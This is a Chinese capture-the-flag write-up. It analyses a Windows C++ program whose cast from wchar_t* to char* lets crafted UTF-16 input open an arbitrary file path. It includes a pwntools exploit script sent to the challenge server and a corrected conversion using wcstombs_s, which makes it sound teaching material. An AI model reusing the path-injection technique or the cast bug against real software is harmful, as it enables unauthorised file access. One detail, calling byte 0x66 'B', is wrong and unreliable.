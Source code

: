 # 不宽的宽字符

CPP + WinAPI，看见人都晕了。

## 程序分析

程序首先通过 Windows API 初始化控制台环境，获取标准输入输出句柄并设置控制台模式：

```cpp
// Get the console input and output handles
HANDLE hConsoleInput = GetStdHandle(STD_INPUT_HANDLE);
HANDLE hConsoleOutput = GetStdHandle(STD_OUTPUT_HANDLE);

if (hConsoleInput == INVALID_HANDLE_VALUE || hConsoleOutput == INVALID_HANDLE_VALUE)
{
    // Handle error – we can't get input/output handles.
    return 1;
}

DWORD mode;
GetConsoleMode(hConsoleInput, &mode);
SetConsoleMode(hConsoleInput, mode | ENABLE_PROCESSED_INPUT);
```

接着使用 `ReadFile` 函数从控制台读取用户输入，存入 256 字节的缓冲区 `inputBuffer`，并移除末尾的换行符：

```cpp
// Read the console input (wide characters)
if (!ReadFile(hConsoleInput, inputBuffer, sizeof(inputBuffer), &charsRead, nullptr))
{
    // Handle read error
    return 2;
}

// Remove the newline character at the end of the input
if (charsRead > 0 && inputBuffer[charsRead - 1] == L'\n')
{
    inputBuffer[charsRead - 1] = L'\0'; // Null-terminate the string
    charsRead--;
}
```

为了处理不同语言的字符，程序将用户输入的 UTF-8 编码内容转换为宽字符。这个转换过程会保留输入中的所有字节，包括 `NULL` 字节：

```cpp
// Convert to WIDE chars
wchar_t buf[256] = { 0 };
MultiByteToWideChar(CP_UTF8, 0, inputBuffer, -1, buf, sizeof(buf) / sizeof(wchar_t));
```

然后程序把转换后的内容存入 `wstring` 对象，并自信地在后面加上 `you_cant_get_the_flag`，试图阻止直接访问目标文件：

```cpp
std::wstring filename = buf;

// Haha!
filename += L"you_cant_get_the_flag";
```

然而在打开文件时存在一个类型转换错误，直接将 `wchar_t*` 强制转换为了 `char*`：

```cpp
std::wifstream file;
file.open((char*)filename.c_str());
```

最后，如果文件成功打开，程序会读取第一行内容作为 Flag 并输出：

```cpp
if (file.is_open() == false)
{
    std::wcout << L"Failed to open the file!" << std::endl;
    return 3;
}

std::wstring flag;
std::getline(file, flag);

std::wcout << L"The flag is: " << flag << L". Congratulations!" << std::endl;
```

## 漏洞分析

在 Windows 系统中，`wchar_t` 使用 UTF-16 编码，这意味着每个字符用 2 个字节表示。比如字符 `A` 在 UTF-16 中表示为 `0x0041`。

Windows 默认使用小端序（Little Endian），所以在这道题中字符 `A` 在内存中实际是 `41 00`。

程序的核心漏洞在于对字符串的类型转换，当程序执行：

```cpp
(char*)filename.c_str()
```

宽字符字符串 `wchar_t*` 被强制转换为普通字符串 `char*`，原本的 UTF-16 字节被直接解释为连续的字节序列。

举个例子，如果我们输入 `flag`：

程序会将其转换为 UTF-16 编码的字节串：

```
 echo -n "flag" | iconv -f ascii -t utf-16le | hexyl -g 2
┌────────┬─────────────────────┬─────────────────────┬────────┬────────┐
│00000000│ 6600 6c00 6100 6700 ┊                     │f⋄l⋄a⋄g⋄┊        │
└────────┴─────────────────────┴─────────────────────┴────────┴────────┘
```

然后追加 `you_cant_get_the_flag`：

```
 echo -n "flagyou_cant_get_the_flag" | iconv -f ascii -t utf-16le | hexyl -g 2
┌────────┬─────────────────────┬─────────────────────┬────────┬────────┐
│00000000│ 6600 6c00 6100 6700 ┊ 7900 6f00 7500 5f00 │f⋄l⋄a⋄g⋄┊y⋄o⋄u⋄_⋄│
│00000010│ 6300 6100 6e00 7400 ┊ 5f00 6700 6500 7400 │c⋄a⋄n⋄t⋄┊_⋄g⋄e⋄t⋄│
│00000020│ 5f00 7400 6800 6500 ┊ 5f00 6600 6c00 6100 │_⋄t⋄h⋄e⋄┊_⋄f⋄l⋄a⋄│
│00000030│ 6700                ┊                     │g⋄      ┊        │
└────────┴─────────────────────┴─────────────────────┴────────┴────────┘
```

当这个字符串被强制转换为 `char*` 时，程序会从这个内存地址开始，按照 C 风格字符串的规则读取字节序列：

```
66 00 6C 00 61 00 67 00 ...
   ^
遇到 00 时字符串结束
```

即文件名为 `B`（ASCII 编码为 66）。

所以如果我们精心构造一个字符串，让它在 UTF-16 编码下的字节序列满足：当被强制转换为 `char*` 时，这些字节正好表示 `Z:\\theflag`，并且紧跟一个 `NULL` 字节。

假设我们需要构造路径 `Z:\\theflag`，它的字节序列（包括 `NULL`）是：

```
 echo -ne "Z:\\\\theflag\x00" | hexyl
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 5a 3a 5c 74 68 65 66 6c ┊ 61 67 00                │Z:\thefl┊ag⋄     │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

我们需要找到一个字符串，它的 UTF-16LE 编码恰好是这个序列，即每两个字节组成一个 UTF-16 字符：

```
 echo -ne "Z:\\\\theflag\x00" | hexyl -g 2
┌────────┬─────────────────────┬─────────────────────┬────────┬────────┐
│00000000│ 5a3a 5c74 6865 666c ┊ 6167 00             │Z:\thefl┊ag⋄     │
└────────┴─────────────────────┴─────────────────────┴────────┴────────┘
```

这个过程在 Python 中很好实现：

```python
payload = b"Z:\\\\theflag\x00".decode("utf-16-le").encode()
```

## 利用脚本

```python
from pwn import *

context.log_level = "debug"

token = "<your_token>"

io = remote("202.38.93.141", 14202)
io.sendlineafter(b"token", token.encode())

payload = b"Z:\\\\theflag\x00".decode("utf-16-le").encode()
io.sendlineafter(b"to it:", payload)

io.interactive()
```

## 其他

如果想要正确处理 `wchar_t*` 字符串转换为 `char*` 的情景，正确且安全的方式是使用 `wcstombs_s` 函数。

例如：

```cpp
size_t convertedChars = 0;
size_t sizeInBytes = ((filename.length() + 1) * 2);
std::vector<char> converted(sizeInBytes);

errno_t err = wcstombs_s(
    &convertedChars,
    converted.data(),
    sizeInBytes,
    filename.c_str(),
    sizeInBytes
);
```

参考：

- [How to: Convert System::String to wchar_t\* or char\*](https://learn.microsoft.com/en-us/cpp/dotnet/how-to-convert-system-string-to-wchar-t-star-or-char-star?view=msvc-170)
- [wcstombs_s, \_wcstombs_s_l](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/wcstombs-s-wcstombs-s-l?view=msvc-170)

